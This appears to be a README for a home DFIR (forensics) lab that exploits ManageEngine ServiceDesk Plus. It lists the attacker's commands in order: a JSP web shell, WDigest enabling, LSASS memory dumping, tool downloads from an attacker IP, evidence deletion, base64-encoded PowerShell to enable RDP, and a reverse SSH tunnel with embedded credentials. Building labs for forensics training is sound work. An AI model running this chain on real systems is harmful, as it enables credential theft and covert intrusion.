

# Building My First DFIR Lab

## Lab Schema




## Environment Setup
- Victim Machine: Windows 10 has:
    -  Vulnerable ManageEngine ServiceDesk Plus build 11303 found on the [ManageEngine Archives](https://archives.manageengine.com/service-desk/11303/)
    -  Sysmon for Windows Logging
    -  Wireshark
- Attacker Machine: Kali Linux
- Server: Windows 10
## Planning
- We will be dividing our lab to multiple parts
    - Part 1: Initial Access & Credentials Dumping
    - 

## Let's Go
### - Part 1:

#### a. Applying The Exploit:


#### b. Visiting wbsh.jsp


#### c. Enum
  1. `whoami`
  2. `ipconfig /all`
  3. `systeminfo`
  4. `arp -a`
  5. `tasklist`
lsass.exe                      652 Services                   0     16,848 K
  
  6. `reg query HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential`
#### e. `powershell.exe  Set-ItemProperty -Force -Path  'HKLM:\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest' -Name  'UseLogonCredential' -Value '1'`
#### f. `C:\Windows\System32\rundll32.exe C:\Windows\System32\comsvcs.dll MiniDump, 652 C:\Windows\Temp\logctl.zip full`
#### g. Download C:\Windows\Temp\logctl.zip
#### h. `powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://192.168.1.2:9000/file2.exe', 'C:\windows\temp\calc.exe')`
#### k. `C:\windows\temp\calc.exe -accepteula -ma 652 C:\Windows\Temp\logct2.dmp`
#### l. Delete both of them `Remove-Item -Path "C:\Windows\Temp\logct2.dmp", "C:\Windows\Temp\logctl.zip"`

### - Part 2: Lateral Movement & Stealing Data

> Download Employees.xls FROM THE VICTIM


#### a. Download ekern.exe 
```
powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://192.168.1.2:9000/file.exe', 'C:\windows\temp\ekern.exe')
```

#### b. Check if RDP is Enabled?
```
Get-Service -Name TermService
```

#### c. Enable RDP using the Encoded Command
```
powershel.exe -Command "& {[Text.Encoding]::UTF8.GetString([Convert]::FromBase64String('U2V0LVNlcnZpY2UgLU5hbWUgVGVybVNlcnZpY2UgLVN0YXJ0dXBUeXBlIEF1dG9tYXRpYw0KDQpTdGFydC1TZXJ2aWNlIC1OYW1lIFRlcm1TZXJ2aWNlDQoNClNldC1JdGVtUHJvcGVydHkgLVBhdGggJ0hLTE06XFN5c3RlbVxDdXJyZW50Q29udHJvbFNldFxDb250cm9sXFRlcm1pbmFsIFNlcnZlclwnIC1OYW1lICdmRGVueVRTQ29ubmVjdGlvbnMnIC1WYWx1ZSAw')) | Invoke-Expression}"
```

#### d. Check Again 
```
Get-Service -Name TermService
```
#### e. Write the FXS.bat
```
powershel.exe -Command "& {[Text.Encoding]::UTF8.GetString([Convert]::FromBase64String('JGJhdGNoQ29udGVudCA9ICdlY2hvIHl8QzpcV2luZG93c1xUZW1wXGVrZXJuLmV4ZSAtc3NoIC1QIDQ0MyAtbCB2MWN0aW0gLXB3IENAbnRfRDNmM25kIC1SIDEyNy4wLjAuMTo0OTgwMDoxOTIuMTY4LjIwLjE0NzozMzg5IDE5Mi4xNjguMS4yJw0KJGJhdGNoRmlsZVBhdGggPSAnQzpcVXNlcnNcVmljdGltXERvY3VtZW50c1xGWFMuYmF0Jw0KU2V0LUNvbnRlbnQgLVBhdGggJGJhdGNoRmlsZVBhdGggLVZhbHVlICRiYXRjaENvbnRlbnQ=')) | Invoke-Expression}"
```


#### f. Execute FXS.bat == Establish SSH Connection
```
powershell.exe C:\Users\Victim\Documents\FXS.bat
```


#### g. Let's Start The RDP, when doing the RDP we will be Making 3 attemps 


> Now We Are Ready!! Let's Start The Lab...
